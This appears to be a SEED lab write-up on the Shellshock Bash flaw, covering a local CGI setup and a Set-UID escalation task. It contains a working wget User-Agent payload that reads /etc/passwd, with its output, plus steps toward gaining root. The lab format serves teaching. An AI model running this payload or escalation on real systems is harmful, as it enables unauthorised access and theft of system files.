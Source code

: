 Step 1: Set up the CGI Program. You can write a very simple CGI program (called `myprog.cgi`) like the following. It simply prints out "Hello World" using shell script.
```sh
#! /bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```
Please place the above CGI program in the `/usr/lib/cgi-bin` directory and set its permission to 755 (so it is executable). You need to use the root privilege to do these (using sudo), as the folder is only writable by the root. This folder is the default CGI directory for the Apache web server.

To access this CGI program from the Web, you can either use a browser by typing the following URL: `http://localhost/cgi-bin/myprog.cgi`, or use the following command line program `curl` to do the same thing:
```sh
curl http://localhost/cgi-bin/myprog.cgi
```

Step 2: Launch the Attack. After the above CGI program is set up, you can launch the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the Bash program, which is invoked first, before the CGI script is executed. Your goal is to launch the attack through the URL `http://localhost/cgi-bin/myprog.cgi`, such that you can achieve something that you cannot do as a remote user. For example, you can delete some file on the server, or fetch some file (that is not accessible to the attacker) from the server.

We call it with wget to swap out the User Agent string. E.g. this will show the contents of `/etc/passwd`:
```sh
seed@ubuntu:~$ wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi
--2016-08-09 05:06:08--  http://localhost/cgi-bin/myprog.cgi
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:80... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: `myprog.cgi.1'

    [ <=>                                   ] 1,993       --.-K/s   in 0s      

2016-08-09 05:06:08 (49.1 MB/s) - `myprog.cgi.1' saved [1993]
```

### Task 2: Attack Set-UID programs
In this task, we use Shellshock to attack Set-UID programs, with a goal to gain the root privilege. Before the attack, we need to first let `/bin/sh` to point to `/bin/bash` (by default, it points to `/bin/dash` in our SEED Ubuntu 12.04 VM). You can do it using the following command:
```sh
sudo ln -sf /bin/bash /bin/sh
```
(a) The following program is a Set-UID program, which simply runs the "`/bin/ls -l`" command. Please compile this code, make it a Set-UID program, and make `root` be its owner. As we know, the `system()` function will invoke "`/bin/sh -c`" to run the given command, which means `/bin/bash` will be invoked. Can you use the Shellshock vulnerability to gain the root privilege?
```c
#include <stdio.h>
void main()
{
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```
It should be noted that using `setuid(geteuid())` to turn the real uid into the effective uid is not a common practice in Set-UID programs, but it does happen.